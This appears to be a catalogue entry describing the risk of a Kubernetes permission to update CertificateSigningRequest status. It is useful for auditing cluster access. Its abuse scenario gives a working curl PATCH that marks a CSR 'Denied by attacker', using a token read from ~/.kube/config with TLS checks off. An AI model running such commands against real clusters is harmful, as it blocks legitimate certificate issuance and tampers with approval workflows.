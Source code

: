 ```yaml
---
id: 1090
title: "Update CertificateSigningRequest Status (Tampering/DoS)"
description: "Allows updating the status of CertificateSigningRequests (CSRs). This could be abused to prematurely mark CSRs as 'Approved' or 'Denied', potentially bypassing approval workflows (if the approver is weak or misconfigured), blocking legitimate certificate issuance, or causing general confusion. Does not grant approval itself if an approver is required."
category: Tampering
risk_level: RiskLevelMedium
date: ""
---
```


## Overview

| Field         | Value                                                                                     |
| ------------- | ----------------------------------------------------------------------------------------- |
| ID            | 1090                                                                                      |
| Name          | Update CertificateSigningRequest Status (Tampering/DoS)                                   |
| Risk Category | Tampering                                                                                 |
| Risk Level    | {{< risk Medium >}}                                                                       |
| Role Type     | ClusterRole                                                                               |
| API Groups    | certificates.k8s.io                                                                       |
| Resources     | certificatesigningrequests/status                                                         |
| Verbs         | update, patch                                                                             |
| Tags          | {{< tag "CertificateManagement" >}} {{< tag "DenialOfService" >}} {{< tag "Tampering" >}} |

## Description

Allows updating the status of CertificateSigningRequests (CSRs). This could be abused to prematurely mark CSRs as 'Approved' or 'Denied', potentially bypassing approval workflows (if the approver is weak or misconfigured), blocking legitimate certificate issuance, or causing general confusion. Does not grant approval itself if an approver is required.

## Abuse Scenarios

1. Patch a CertificateSigningRequest status to mark it as 'Denied'.

```bash
# Replace <kubernetes-api-server> with your API server address
# Replace <token> with your authentication token
curl -k -H "Authorization: Bearer <token>" -H "Content-Type: application/json" -X PATCH \
  --data '{"status":{"conditions":[{"type":"Denied","status":"True","reason":"ManualDenial","message":"Denied by attacker"}]}}' \
  https://<kubernetes-api-server>/apis/certificates.k8s.io/v1/certificatesigningrequests/<csr-name>/status
# Example: curl -k -H "Authorization: Bearer $(cat ~/.kube/config | grep token: | awk '{print $2}')" -H "Content-Type: application/json" -X PATCH --data '{"status":{"conditions":[{"type":"Denied","status":"True","reason":"ManualDenial","message":"Denied by attacker"}]}}' https://127.0.0.1:6443/apis/certificates.k8s.io/v1/certificatesigningrequests/my-app-csr/status

```
